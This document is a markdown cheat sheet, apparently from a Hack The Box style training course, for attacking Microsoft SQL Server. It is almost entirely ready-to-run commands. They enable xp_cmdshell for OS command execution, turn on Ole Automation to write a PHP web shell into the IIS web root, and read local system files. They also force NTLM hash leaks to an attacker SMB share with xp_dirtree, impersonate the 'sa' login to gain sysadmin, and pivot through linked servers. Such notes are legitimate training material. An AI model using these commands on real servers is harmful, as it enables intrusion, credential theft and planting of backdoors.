 #### MSSQL
```bash
sqlcmd
sqsh -S 10.129.20.13 -U username -P Password123
```
##### Enuermation
If we use sqlcmd, we will need to use GO after our query to execute the SQL syntax.
```powershell
1> SELECT name FROM master.dbo.sysdatabases
2> GO

1> USE htbusers
2> GO

1> SELECT table_name FROM htbusers.INFORMATION_SCHEMA.TABLES
2> GO

1> SELECT * FROM users
2> GO
```
##### XP_CMDSHELL
```powershell
1> xp_cmdshell 'whoami'
2> GO
```
Enable XP_CMDSHELL
```bash
EXECUTE sp_configure 'show advanced options', 1
GO
RECONFIGURE
GO
EXECUTE sp_configure 'xp_cmdshell', 1
GO  
RECONFIGURE
GO
```
##### Write local files
To write files using MSSQL, we need to enable Ole Automation Procedures, which requires admin privileges, and then execute some stored procedures to create the file:
```powershell
1> sp_configure 'show advanced options', 1
2> GO
3> RECONFIGURE
4> GO
5> sp_configure 'Ole Automation Procedures', 1
6> GO
7> RECONFIGURE
8> GO
```

```powershell
1> DECLARE @OLE INT
2> DECLARE @FileID INT
3> EXECUTE sp_OACreate 'Scripting.FileSystemObject', @OLE OUT
4> EXECUTE sp_OAMethod @OLE, 'OpenTextFile', @FileID OUT, 'c:\inetpub\wwwroot\webshell.php', 8, 1
5> EXECUTE sp_OAMethod @FileID, 'WriteLine', Null, '<?php echo shell_exec($_GET["c"]);?>'
6> EXECUTE sp_OADestroy @FileID
7> EXECUTE sp_OADestroy @OLE
8> GO
```
##### Read local files
```powershell
1> SELECT * FROM OPENROWSET(BULK N'C:/Windows/System32/drivers/etc/hosts', SINGLE_CLOB) AS Contents
2> GO
```
##### Capture Service Account Hash
```powershell
1> EXEC master..xp_dirtree '\\10.10.110.17\share\'
2> GO
```

```powershell
1> EXEC master..xp_subdirs '\\10.10.110.17\share\'
2> GO
```
##### Impersonate Users
Identify available users
```powershell
1> SELECT distinct b.name
2> FROM sys.server_permissions a
3> INNER JOIN sys.server_principals b
4> ON a.grantor_principal_id = b.principal_id
5> WHERE a.permission_name = 'IMPERSONATE'
6> GO
```
Verify current user and role
```powershell
1> SELECT SYSTEM_USER
2> SELECT IS_SRVROLEMEMBER('sysadmin')
3> go
```
As the returned value `0` indicates, we do not have the sysadmin role, but we can impersonate the `sa` user.

IMPERSONATE
```powershell
1> EXECUTE AS LOGIN = 'sa'
2> SELECT SYSTEM_USER
3> SELECT IS_SRVROLEMEMBER('sysadmin')
4> GO
```
##### Communicate with linked services
```powershell
1> SELECT srvname, isremote FROM sysservers
2> GO

1> EXECUTE('select @@servername, @@version, system_user, is_srvrolemember(''sysadmin'')') AT [10.0.0.12\SQLEXPRESS]
2> GO

1> EXECUTE('master..xp_dirtree ''\\10.10.110.17\share\''') AT [10.0.0.12\SQLEXPRESS]
2> GO
```